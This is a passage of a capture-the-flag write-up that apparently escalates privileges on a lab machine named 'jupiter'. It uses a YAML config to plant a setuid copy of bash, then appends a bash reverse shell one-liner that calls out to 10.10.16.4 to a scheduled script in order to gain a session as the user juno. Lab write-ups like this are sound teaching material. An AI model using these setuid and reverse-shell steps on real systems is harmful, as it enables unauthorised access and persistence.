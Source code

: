 ```
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/exploit
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3                                                                                                
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/exploit
      start_time: 5s
```

Executing /tmp/exploit, will then give us a shell with the permissions of juno

```
postgres@jupiter:/tmp$ ./exploit -p
./exploit -p
id
uid=114(postgres) gid=120(postgres) euid=1000(juno) groups=120(postgres),119(ssl-cert)
```

However, we still do not have the privileges to view the user.txt file. Examining the privileges of the file, we realize that we have to be in the juno group to be able to view the file. However, our current group is the postgres group as the shell is inherited from the previous session. In order to get the juno group, we would have to start a new session instead

```
cd /home/juno
cat user.txt
cat: user.txt: Permission denied
```

However, we also realize that the following script ```/home/juno/shadow-simulation.sh``` will be executed. Hence, we can add our reverse shell command to /home/juno/shadow-simulation.sh to spawn a new reverse shell command as juno

```
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/4000 0>&1'" >> /home/juno/shadow-simulation.sh
cat /home/juno/shadow-simulation.sh
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/4000 0>&1'
```
# Obtaining user flag

```
juno@jupiter:~$ cat user.txt
cat user.txt
<user flag>
```
